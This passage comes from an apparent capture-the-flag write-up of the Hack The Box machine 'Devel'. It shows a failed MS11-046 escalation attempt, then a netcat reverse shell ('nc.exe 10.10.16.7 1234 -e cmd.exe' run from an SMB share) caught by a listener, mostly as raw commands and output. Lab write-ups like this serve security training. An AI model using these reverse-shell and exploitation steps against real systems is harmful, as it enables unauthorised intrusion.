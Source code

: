 ```
         [*] Spawning shell

[*] Exiting SYSTEM shell
PS C:\windows\temp\haxor> whoami
iis apppool\web
PS C:\windows\temp\haxor> dir


    Directory: C:\windows\temp\haxor


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         20/1/2023   3:54 ??     112815 MS11-046.exe                      
-a---         20/1/2023   3:23 ??      73802 shell.exe                         


PS C:\windows\temp\haxor> 
```

Still doesn't work i guess its the powershell session thats causing it now let me get a cmd reverse shell using nc.exe

```
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ locate nc.exe    
/home/mark/Desktop/THM/Wreath/nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ l            
cmdasp.aspx  MS11-046.exe  nc.exe*  nmapscan  shell.exe  write.html
```

Now calling it remotely also and specifying the binary needed to be spawned while it sends back connection to us

```

PS C:\windows\temp\haxor> //10.10.16.7/share/nc.exe 10.10.16.7 1234 -e cmd.exe

```

Now back on the listener 

```
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ nc -lvnp 1234                                     
listening on [any] 1234 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.5] 49181
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\windows\temp\haxor>
```
